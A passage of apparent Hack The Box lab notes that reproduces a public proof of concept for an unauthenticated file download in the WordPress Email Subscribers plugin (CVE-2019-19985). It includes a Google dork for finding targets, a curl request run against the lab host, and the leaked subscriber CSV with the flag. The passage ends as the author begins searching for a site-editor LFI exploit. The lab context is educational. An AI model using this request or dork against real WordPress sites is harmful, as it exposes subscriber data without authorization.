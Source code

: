 Found the one we need, it is a `email-subscribers 4.2.2 Unauthenticated File Download` Exploit, here's the PoC:

```
# Exploit Title: WordPress Plugin Email Subscribers & Newsletters 4.2.2 - Unauthenticated File Download
# Google Dork: "Stable tag" inurl:wp-content/plugins/email-subscribers/readme.txt
# Date: 2020-07-20
# Exploit Author: KBA@SOGETI_ESEC
# Vendor Homepage: https://www.icegram.com/email-subscribers/
# Software Link: https://pluginarchive.com/wordpress/email-subscribers/v/4-2-2
# Version: <= 4.2.2
# Tested on: Email Subscribers & Newsletters 4.2.2
# CVE : CVE-2019-19985


curl [BASE_URL]'/wp-admin/admin.php?page=download_report&report=users&status=all'
EXAMPLE: curl 'http://127.0.0.1/wp-admin/admin.php?page=download_report&report=users&status=all'
```

So, we need to use curl in the following way:

```bash
curl 'http://blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all'
```

We get this output:

```
curl 'http://blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all'

"First Name", "Last Name", "Email", "List", "Status", "Opt-In Type", "Created On"
"admin@inlanefreight.local", "HTB{unauTh_d0wn10ad!}", "admin@inlanefreight.local", "Test", "Subscribed", "Double Opt-In", "2020-09-08 17:40:28"
"admin@inlanefreight.local", "HTB{unauTh_d0wn10ad!}", "admin@inlanefreight.local", "Main", "Subscribed", "Double Opt-In", "2020-09-08 17:40:28"

```

Got the flag:

```
HTB{unauTh_d0wn10ad!}
```

### Checking for LFI vulnerable plugin 

If we now search for:

```
site-editor 1.1.1 exploit
```

We get this:

![Pasted image 20250220143320.png](../../../IMAGES/Pasted%20image%2020250220143320.png)
